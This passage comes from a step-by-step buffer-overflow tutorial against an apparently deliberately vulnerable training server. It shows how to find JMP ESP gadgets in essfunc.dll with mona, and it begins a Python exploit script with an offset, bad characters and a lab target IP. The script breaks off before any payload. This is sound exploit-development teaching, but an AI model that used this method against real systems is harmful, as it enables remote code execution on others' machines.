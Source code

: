 The metasploit tool `msf-nasm_shell` gives us the right byte sequence to search for:

```bash
$ msf-nasm_shell

nasm > jmp esp
00000000 FFE4 jmp esp
```

Find the byte sequence for JMP ESP `FFE4` in the previously identified modules.

```bash
!mona find -s "\xff\xe4" -m essfunc.dll
    0x625011af : "\xff\xe4" |  {PAGE_EXECUTE_READ} [essfunc.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Users\IEUser\Desktop\essfunc.dll)
    0x625011bb : "\xff\xe4" |  {PAGE_EXECUTE_READ} [essfunc.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Users\IEUser\Desktop\essfunc.dll)
    0x625011c7 : "\xff\xe4" |  {PAGE_EXECUTE_READ} [essfunc.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Users\IEUser\Desktop\essfunc.dll)
    0x625011d3 : "\xff\xe4" |  {PAGE_EXECUTE_READ} [essfunc.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Users\IEUser\Desktop\essfunc.dll)
    0x625011df : "\xff\xe4" |  {PAGE_EXECUTE_READ} [essfunc.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Users\IEUser\Desktop\essfunc.dll)
    0x625011eb : "\xff\xe4" |  {PAGE_EXECUTE_READ} [essfunc.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Users\IEUser\Desktop\essfunc.dll)
    0x625011f7 : "\xff\xe4" |  {PAGE_EXECUTE_READ} [essfunc.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Users\IEUser\Desktop\essfunc.dll)
    0x62501203 : "\xff\xe4" | ascii {PAGE_EXECUTE_READ} [essfunc.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Users\IEUser\Desktop\essfunc.dll)
    0x62501205 : "\xff\xe4" | ascii {PAGE_EXECUTE_READ} [essfunc.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Users\IEUser\Desktop\essfunc.dll)
      Found a total of 9 pointers
```

The first address does not contain any of our badchars and is executable so it should be usable.

We have to turn the address into a hex string in little endian byte order and then we can insert it where our `BBBB` were.

```python
#!/usr/bin/env python3
# Simple socket buffer overflow
# Step 5 - JMP ESP
import socket
import struct

def bytes_to_hexbytestring(b):
    hexstring = b.hex()
    bytestring = hexstring.encode("utf-8")
    return bytestring

offset = 1020
size = 2048
target_ip = "10.0.2.74"
target_port = 9999
line_ending = b"\n" # new line 0x0a
badchars = [ 0x00, 0x0a ]

# esp_gadget_address = 0x625011af
# esp_gadget = struct.pack("<I", esp_gadget_address)
# print(esp_gaddget.hex())
# af 11 50 62
# af115062

buf = b""
buf += b"HTER "
buf += b"f"
```